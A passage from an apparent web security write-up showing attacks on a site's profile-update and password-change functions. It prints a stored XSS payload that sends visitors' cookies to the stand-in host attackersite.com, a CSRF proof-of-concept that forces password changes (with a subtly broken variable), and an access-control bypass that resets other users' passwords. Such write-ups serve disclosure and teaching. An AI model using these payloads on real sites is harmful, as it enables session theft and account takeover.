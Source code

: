 Here attackersite.com is my website from where I can get cookies inside my server's log file

**Request to update profile**

```
POST /updateUserinfo HTTP/1.1
Host: example.com
...
Cookies=COOKIES

email=test@test.com&fname=<script>var url = 'https://attackersite.com?cookie=' + document.cookies;var attack = new XMLHttpRequest();attack.open("GET", url, true);attack.send(null);</script>&lname=Test
```

If any user Visits my profile his/her, I will get their account cookie, which I can use to login into the victim account

### Cross Site Request Forgery + No Server-Side Validation

As we know that there is no CSRF token and also the old password is not validated, so we can make a CSRF POC which will send a request to update the password, we will remove the email parameter so the password will be updated according to user cookie, when a user visits this page, his/her password will be changed

**CSRF POC**
```
<script>
var url = 'https://example.com/changePassword';
var shlupl = new XMLHttpRequest();
shlupl.open("POST",url, true);
shlupl.setRequestHeader("csrftoken","<AnyStringOfLength35Character>");
shell += '\n';
shell += 'newpassword=Password&cfmpassword=Password';
shlupl.send(shell);
</script>
```

### Improper Access Control + No Server-Side Validation

As we know that there is no cookie validation, and also the old password is not being validated, so we can just change the email in change password request to change password of any user, let's say there are two users, test1@test.com & test2@test.com, we will login with test1@test.com and go to change password page, and after filling the form, click on save and intercept the requests

**Initial Request**
```
POST /changePassword HTTP/1.1
Host: example.com
...
Cookies=COOKIES

email=test1@test.com&newpassword=Password&cfmpassword=Password
```
